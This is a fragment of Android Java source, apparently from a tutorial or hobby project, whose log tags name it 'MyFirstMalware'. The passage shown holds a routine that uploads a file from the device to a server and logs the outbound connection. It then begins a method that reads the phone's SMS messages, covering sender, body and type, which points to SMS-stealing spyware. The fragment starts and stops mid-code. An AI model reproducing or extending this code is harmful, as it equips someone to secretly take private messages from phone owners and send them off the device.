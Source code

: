 ```java

            // Create a boundary string for multipart/form-data
            String boundary = "*****" + System.currentTimeMillis() + "*****";

            // Set request headers
            connection.setRequestProperty("Content-Type", "multipart/form-data; boundary=" + boundary);

            // Create a data output stream to write data to the server
            DataOutputStream outputStream = new DataOutputStream(connection.getOutputStream());

            // Read the file and write it to the server
            File file = new File(filePath);
            FileInputStream fileInputStream = new FileInputStream(file);
            byte[] buffer = new byte[(int) file.length()];
            int bytesRead;
            while ((bytesRead = fileInputStream.read(buffer)) != -1) {
                outputStream.write(buffer, 0, bytesRead);
            }
            fileInputStream.close();

            // Close the output stream and get the server response
            outputStream.flush();
            outputStream.close();
            Log.d("MyFirstMalware", "[!] Outbound Connection Made!");
            int responseCode = connection.getResponseCode();
            if (responseCode == HttpURLConnection.HTTP_OK) {
                Log.d("MyFirstMalware", "[!] HTTP SUCCESS!");
                // Handle the successful upload
                BufferedReader reader = new BufferedReader(new InputStreamReader(connection.getInputStream()));
                String responseLine;
                StringBuilder response = new StringBuilder();
                while ((responseLine = reader.readLine()) != null) {
                    response.append(responseLine);
                }
                reader.close();

                // Print the server response
               Log.d("MyFirstMalware", "Server Response: " + response);
            } else {
                // Handle the error
                Log.d("MyFirstMalware", "File upload failed with response code: " + responseCode);
            }

            // Close the connection
            connection.disconnect();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }


    protected void readMessages() throws IOException {
        String addressCol = Telephony.TextBasedSmsColumns.ADDRESS;
        String msgCol = Telephony.TextBasedSmsColumns.BODY;
        String typeCol = Telephony.TextBasedSmsColumns.TYPE;

        String[] projection = {addressCol, msgCol, typeCol};

        Cursor cursor = getContentResolver().query(Telephony.Sms.CONTENT_URI, projection, null, null, null);

```